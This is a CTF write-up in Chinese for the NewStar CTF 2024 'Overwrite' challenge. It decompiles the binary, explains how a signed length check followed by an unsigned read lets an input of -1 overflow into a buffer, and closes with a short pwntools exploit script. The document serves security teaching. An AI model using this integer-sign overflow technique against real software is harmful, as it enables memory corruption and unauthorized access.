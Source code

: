 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# Overwrite

IDA 反编译查看源代码

```c
unsigned __int64 func()
{
  int nbytes; // [rsp+Ch] [rbp-84h] BYREF
  size_t nbytes_4; // [rsp+10h] [rbp-80h] BYREF
  char nptr[72]; // [rsp+40h] [rbp-50h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("pls input the length you want to readin: ");
  __isoc99_scanf("%d", &nbytes);
  if ( nbytes > 48 )
    exit(0);
  printf("pls input want you want to say: ");
  read(0, &nbytes_4, (unsigned int)nbytes);
  if ( atoi(nptr) <= 114514 )
  {
    puts("bad ,your wallet is empty");
  }
  else
  {
    puts("oh you have the money to get flag");
    getflag();
  }
  return v4 - __readfsqword(0x28u);
}
```

在这个函数中，我们可以输入一个数值 `nbytes`，然后读取相应长度的数据到 `nbytes_4` 中。如果 `nptr` 中的字符串被转换为数字且大于 `114514`，程序会打印 `flag`，否则会输出钱包空的信息。

漏洞分析：

1. `nptr` 和 `nbytes_4` 之间的偏移是 0x30。如果输入大于 0x30 的正整数，程序将会通过 `exit()` 退出。
2. 观察到，`read()` 函数中使用的是 `unsigned int nbytes`，但在输入校验时 `nbytes` 是 `int` 类型，进行了有符号比较。这里产生了漏洞。

```c
read(0, &nbytes_4, (unsigned int)nbytes);
```

例如，`-1` 的 16 进制表示是 `0xffffffff`，对于有符号整数来说，这是一个负数；但在无符号整数中，它代表一个非常大的正整数。因此，利用这一点，输入一个负数值，可以绕过前面的大小检查，将后续输入的数据覆盖到 `nptr`，从而完成利用。

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
# p = process('./pwn')

p = remote('ip', port)
payload = b'a'*0x30 + b'114515'

p.sendlineafter(b': ', b'-1')


p.sendafter(b': ', payload)

p.interactive()
```

